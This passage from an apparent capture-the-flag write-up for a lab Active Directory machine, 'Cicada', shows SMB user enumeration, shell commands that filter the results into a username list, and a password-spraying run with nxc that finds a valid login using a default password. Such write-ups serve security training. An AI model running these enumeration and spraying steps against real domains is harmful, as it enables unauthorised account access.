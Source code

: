 ```shell
SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

## Filtering
The user list was cleaned and extracted from enumeration results to isolate potential usernames. This simplified subsequent spraying attacks by narrowing the scope.
```shell
$ cat user.txt | awk -F " " '{print $6}'
CICADA\Administrator
CICADA\Guest
CICADA\krbtgt
CICADA\CICADA-DC$
CICADA\john.smoulder
CICADA\sarah.dantelia
CICADA\michael.wrightson
CICADA\david.orelious
CICADA\emily.oscars

$ cat user.txt | awk -F " " '{print $6}' | cut -d "\\" -f2 | tee users.txt
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

## SMB Password sparying using `users.txt` and `Cicada$M6Corpb*@Lp#nZp!8`
Using the extracted usernames and the default password, a password-spraying attack was conducted. This resulted in identifying valid credentials for the michael.wrightson account.
```shell
$ nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'                                                                                           
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```